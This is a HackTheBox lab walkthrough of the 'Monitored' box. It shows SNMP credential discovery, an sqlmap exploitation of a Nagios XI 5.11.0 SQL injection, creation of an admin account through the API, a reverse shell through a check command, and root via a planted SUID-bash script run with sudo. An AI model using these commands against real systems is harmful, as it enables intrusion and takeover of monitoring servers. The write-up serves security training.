


# HackTheBox
------------------------------------
### IP: 10.129.230.96
### Name: Monitored
### Difficulty: Medium
--------------------------------------------



I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.96.132          
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-25 08:43 CDT
Nmap scan report for 10.129.96.132
Host is up (0.091s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61e2e7b41b5d46dc3b2f9138e66dc5ff (RSA)
|   256 2973c5a58daa3f60a94aa3e59f675c93 (ECDSA)
|_  256 6d7af9eb8e45c2026ad58d4db3a3376f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Debian)
5667/tcp open  tcpwrapped
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.36 seconds
```

We can see that port 80 is trying to redirect to https://nagios.monitored.htb/ so lets add that to `/etc/hosts`

We can now access the naxios site:



And follow the access nagios link to the login page:

monitored_login.png

Based on experience I know that there are some vulnerabilities with NagiosXI, but we're likely going to need some credentials. 

Its interesting that LDAP is open on this Linux target, but after enumerating it for a while I didn't find anything of interest.

Checkin if SNMP was open on UDP port 161, we find it is and the public community string is in use:

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.96.132

Scanning 1 hosts, 3219 communities
10.129.96.132 [public] Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
                                                              
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ snmpwalk -v2c -c public 10.129.96.132

iso.3.6.1.2.1.1.1.0 = STRING: "Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (167398) 0:27:53.98
iso.3.6.1.2.1.1.4.0 = STRING: "Me <root@monitored.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "monitored"
```

Using snmp-check we find and interesting command being issued:

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ snmp-check 10.129.96.132
```

monitored_snmp_hash.png

These appear to be credentials for a user named svc. `svc:XjH7VCehowpR1xZB`

Thinking this may be a hash I was unable to crack it. I was also unable to SSH in with it or use it to login to https://nagios.monitored.htb/nagiosxi/login.php.

Going back to my dirsearch output that I kicked off at the beginning of the box, I find a `/nagios` directory, and I can use these credentials to access the site:

monitored_core.png

This page is running Nagios Core. But I'm not finding much of interest here.

Going back tot he original login and trying the discovered credentials again, I see the error message reads: `The specified user account has been disabled or does not exist.`

monitored_disabled.png

Full disclosure I got stuck here for ages. Not sure I would have found the way forward if not watching Ippsec's video about interacting with the api because we have a service account's credentials.

Looking at how to interact with the api we can find this thread: https://support.nagios.com/forum/viewtopic.php?p=310411#p310411 which provides us with the commands we'll need. 

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5'
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "0588807e91bc4ad76cb70357f119205ecfcf757f",
    "valid_min": 5,
    "valid_until": "Tue, 25 Jun 2024 15:01:07 -0400"
}
```

Cool. We can now take this token and use it to login to the Nagios dashboard. https://nagios.monitored.htb/nagiosxi/?token=0588807e91bc4ad76cb70357f119205ecfcf757f

Nice, that worked!

monitored_in.png

### Exploitation

Looking at the bottom of the page we find the version number: Nagios XI 5.11.0 

Searching for exploits we find an interesting writeup outlining that this version of Nagios is vulnerable to an error based SQL injection. https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567

Lets use SQLMap as outlined in the article to exploit this:

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=qfpqtsc2rttelaoe0o7kofo3fs" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

Nice, SQL map exploited the injection for us and we now have the nagiosadmin hash and API key:

monitored_admin_api_key.png

We can now create a new user with admin privileges:

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ curl -k --silent "http://nagios.monitored.htb/nagiosxi/api/v1/system/user&apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=testing&password=password&name=testing&email=test@localhost&auth_level=admin"
{"success":"User account testing was added successfully!","user_id":6}
```

I can then login with my created credentials, accept the ToS, update my password, and access the dashboard, this time with admin privileges:

monitored_in2.png

Now lets navigate to Configure > Core Config Manager > Commands and set up a reverse shell.

monitored_shell_setup.png

We can then set up a listener, click "Apply Configuration"

We now go to Monitoring > Check Command and locate our rev_shell command and then click "Run Check Command" down at the bottom of the page.

We now catch a shell as user nagios:

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.230.96] 58284
bash: cannot set terminal process group (4938): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ whoami
whoami
nagios
nagios@monitored:~$ hostname
hostname
monitored
```

We can now grab the user.txt flag:

monitored_user_flag.png

### Privilege Escalation

Seeing what we can run with elevated permissions we find several options:

```
nagios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

Looking at manage_services.sh:

```bash
#!/bin/bash
#
# Manage Services (start/stop/restart)
# Copyright (c) 2015-2020 Nagios Enterprises, LLC. All rights reserved.
#
# =====================
# Built to allow start/stop/restart of services using the proper method based on
# the actual version of operating system.
#
# Examples:
# ./manage_services.sh start httpd
# ./manage_services.sh restart mysqld
# ./manage_services.sh checkconfig nagios
#

BASEDIR=$(dirname $(readlink -f $0))

# Import xi-sys.cfg config vars
. $BASEDIR/../etc/xi-sys.cfg

# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
```

Looks like we can select a command, followed by a program.


Looking to see if any of these are writable we find that nagios is:

```
nagios@monitored:~$ ls -la /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9  2023 /usr/local/nagios/bin/nagios
```

Lets now backup the original nagios and create our own, setting the SUID on it:

```
nagios@monitored:/usr/local/nagios/bin$ mv nagios nagios.backup  
```

Then crate a new nagios:

```
#!/bin/bash

/bin/chmod 4755 /bin/bash
```
Make it executable:
```                
nagios@monitored:/usr/local/nagios/bin$ chmod +x nagios
```

We can then run:
```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```

Followed by `/bin/bash -p` for a root shell:

```
nagios@monitored:/usr/local/nagios/bin$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1001(nagios) gid=1001(nagios) euid=0(root) groups=1001(nagios),1002(nagcmd)
```

We can now grab the final flag:

monitored_root_flag.png

Thanks for following along!

-Ryan

------------------------------------------------

